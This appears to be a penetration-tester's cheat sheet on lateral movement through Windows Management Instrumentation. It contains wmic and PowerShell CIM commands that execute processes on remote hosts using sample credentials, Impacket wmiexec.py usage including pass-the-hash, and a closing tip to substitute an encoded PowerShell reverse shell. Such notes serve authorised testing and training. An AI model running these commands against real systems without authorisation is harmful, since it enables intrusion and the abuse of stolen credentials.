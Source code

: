
### **WMI (Windows Management Instrumentation)**  
**Use Cases**: Remote code execution, lateral movement, data collection.  
**Protocol**: DCOM (TCP ports 135, 49152-65535) or WinRM (HTTP/5985, HTTPS/5986).  
we need the credentials of a member of the _Administrators_ local group, which can also be a domain user.
From PowerShell with `valid member of the Local Administrator group` for the target machines.

``` powershell
 wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
```
**Key Commands**:  
- **Legacy WMIC (Deprecated but still useful)**:  
  ```bash
  wmic /node:<IP> /user:<DOMAIN\USER> /password:<PASSWORD> process call create "cmd.exe /c calc.exe"
  ```  
- **/node:** Specifies the target machine’s IP address or hostname.
- **/user:** The username that has the required privileges on the target machine.
- **/password:** The corresponding password for authentication.
- **process call create:** Instructs WMIC to create (execute) a new process on the target.
- **"<COMMAND>":** The command or application to be executed remotely (e.g., `"calc"` for the calculator).
Example:

``` powershell
 wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
```

- A `ReturnValue` of "0", meaning that the process has been created successfully.
- **PowerShell (Modern Approach)**:  
Steps:
1. Create a `PSCredential` Object.
2. Prepare a` CIM` Session: Define session options to use `DCOM` -> Create a new `CIM` session to the target < IP >.
3. Use `Invoke-CimMethod` to run the command on the target machine.

  ```powershell
  # Create PSCredential Object
  $cred = New-Object System.Management.Automation.PSCredential ('<USER>', (ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force))

  # Create CIM Session (DCOM)
  $opt = New-CimSessionOption -Protocol DCOM
  $session = New-CimSession -ComputerName <IP> -Credential $cred -SessionOption $opt

  # Execute Command
  $Command = 'calc.exe'
  Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine=$Command}
  ```  

#### WMIexec  (Kali Linux)

#### Overview

`wmiexec.py` is part of the Impacket toolkit and allows command execution via Windows Management Instrumentation (WMI). It is useful for executing commands on remote Windows systems during penetration tests.

---
#### **Interactive Shell**
``` shell
wmiexec.py DOMAIN/username:password@target_ip
```

#### Common Commands

#### 1. **Execute a Command on a Remote Host**

```bash
wmiexec.py DOMAIN/username:password@target_ip "command"
```

#### 2. **Use NTLM Hash for Authentication**

```bash
wmiexec.py DOMAIN/username@target_ip -hashes :<NTLM_Hash> "command"
```

#### 3. **Specify a Non-Standard Port**

```bash
wmiexec.py DOMAIN/username:password@target_ip -port <port_number> "command"
```

#### 5. **Use Kerberos for Authentication**

```bash
wmiexec.py -k -no-pass DOMAIN/username@target_ip
```


**Key Considerations**:  
- Requires **local admin** privileges on the target.  
- Processes spawn in **Session 0** (non-interactive). Use `-RunAs` or migrate to user sessions for GUI access.  
- UAC bypassed for **domain admins** on domain-joined machines.  
#### We can replace `$Command` with **Encoded** shell from [PowerShell_RCE](https://github.com/MGamalCYSEC/ReverseShellCrafter/tree/main/PowerShell)



